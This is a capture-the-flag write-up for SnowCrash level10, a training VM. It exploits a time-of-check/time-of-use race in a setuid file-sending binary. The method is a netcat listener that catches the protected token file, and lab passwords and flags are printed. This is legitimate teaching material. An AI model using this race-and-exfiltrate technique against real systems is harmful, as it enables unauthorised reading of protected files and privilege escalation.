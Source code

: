 # level10

Using `ls`, we can discover another couple of files.

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Let's get some informations about our couple.

```bash
level10@SnowCrash:~$ readelf -p .rodata level10

String dump of section '.rodata':
  [     8]  %s file host^J^Isends file to host if you have access to it^J
  [    43]  Connecting to %s:6969 .. 
  [    5d]  Unable to connect to host %s^J
  [    7b]  .*( )*.^J
  [    84]  Unable to write banner to host %s^J
  [    a7]  Connected!^JSending file .. 
  [    c3]  Damn. Unable to open file
  [    dd]  Unable to read from file: %s^J
  [    fb]  wrote file!
  [   107]  You don't have access to %s^J

level10@SnowCrash:~$ nm -u level10
         w _Jv_RegisterClasses
         U __errno_location@@GLIBC_2.0
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U __stack_chk_fail@@GLIBC_2.4
         U access@@GLIBC_2.0
         U connect@@GLIBC_2.0
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U socket@@GLIBC_2.0
         U strerror@@GLIBC_2.0
         U write@@GLIBC_2.0
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10 token
./level10 file host
    sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

Access comes after read, we will exploit [TOC/TOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) flaw. This is actually a really interesting vulnerability in the 42 school ecosystem.

Let's upload our scripts to the server.

```bash
➜  level10 git:(main) ✗ scp -r -P 4242 ressources/ level10@localhost:/tmp/ressources
           _____                      _____               _     
          / ____|                    / ____|             | |    
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          10.0.2.15 
level10@localhost's password: s5cAJpM8ev6XHw998pRWG728z
toctou.sh                                                                                                      100%  123    14.7KB/s   00:00    
caller.sh                                                                                                      100%   58   147.9KB/s   00:00
```

First, let's host a netcat server in **another** prompt, we will use the port 6969 as we saw in the readelf dump.

```bash
level10@SnowCrash:~$ nc -lk 6969
```

Run each ressources in dedicated prompts or using `&`.

Let is run a few seconds and use the following command to extract the flag.

```bash
level10@SnowCrash:~$ cat /tmp/out | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
```

Let's get our flag.

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

And head to the level 11.

```bash
flag10@SnowCrash:~$ su level11
Password: feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$ 
```
